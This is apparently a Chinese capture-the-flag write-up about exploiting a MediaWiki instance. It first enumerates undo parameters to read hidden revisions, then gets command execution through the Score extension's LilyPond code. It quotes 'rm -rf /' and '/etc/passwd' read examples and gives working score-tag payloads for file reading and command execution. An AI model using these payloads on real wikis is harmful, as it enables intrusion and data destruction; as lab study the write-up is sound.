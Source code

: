 # 私有笔记

## 解题过程


### Share in my knowledge
题目已经明示了，搜 CVE 打就是了。然后去搜 MediaWiki 的 CVE。然后找个这个很有用的链接：[Security Release QA](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)

其中提到了三个问题，并给了三种可能的利用方式：

1. `action=mcrundo` or `action=mcrrestore`: can be used to edit without permission.

2. `action=edit&undo=###&undoafter=###`: can be used view the contents of arbitrary revisions.

3. `action=rollback&from=...` and `from={{:private page}}`: can be used to view the contents of arbitrary pages.

乱点的时候，在查看历史的时候，发现一个 query param `oldid=1` 推测页面数应该不会很多，开始枚举第二种利用方式。从 `undo=0&undoafter=0` 开始枚举到 `undo=1&undoafter=2` 就过了，，，我没理解，但他过了。



### Make yourself at home
登录之后发现可以编辑了。上述 3 个 CVE 并未提到能产生 RCE，得找其他办法，于是再去看那个 Software version，发现有个奇怪的扩展 Score。查了一下是用来嵌入LilyPond 乐谱的。去搜相关 CVE，发现有一个可以 RCE 的漏洞，和 `-dsafe` 有关。

先按照 Score 的文档试了一下 `<score>\relative c' { f d f a d f e d cis a cis e a g f e }</score>`，发现确实能使用 Lilypond 的功能。

然后在 Lilypond 的[文档](https://lilypond.org/doc/v2.22/Documentation/usage/command_002dline-usage)处查询 `-dsafe`，找到两个给出的例子：

~~~
% too dangerous to write correctly
#(s ystem "rm -rf /")
% malicious but not destructive
{ c4^$(ly:gulp-file "/etc/passwd") }
~~~

先尝试执行了下面的例子，发现在乐谱图片的上方出现了文件内容。即可以实现文件读取。

用参考下面的例子，试了 `<score>\relative c' #(system "ls /")</score>`，点显示预览，发现 `wrong type for argument 2.  Expecting music, found 0`，说明执行成功了。

利用 `tmp/tmp` 作为中间文件，就相当于获得了一个 shell。比较奇怪的是，发现 flag2 在 `/` 下，但 `<score>\relative c' { c4^$(ly:gulp-file "/flag1") }</score>` 并不能得到 flag。之后先把 flag2 输出到 `/tmp/tmp` 再读取发现是 OK 的，推测是两个用户？
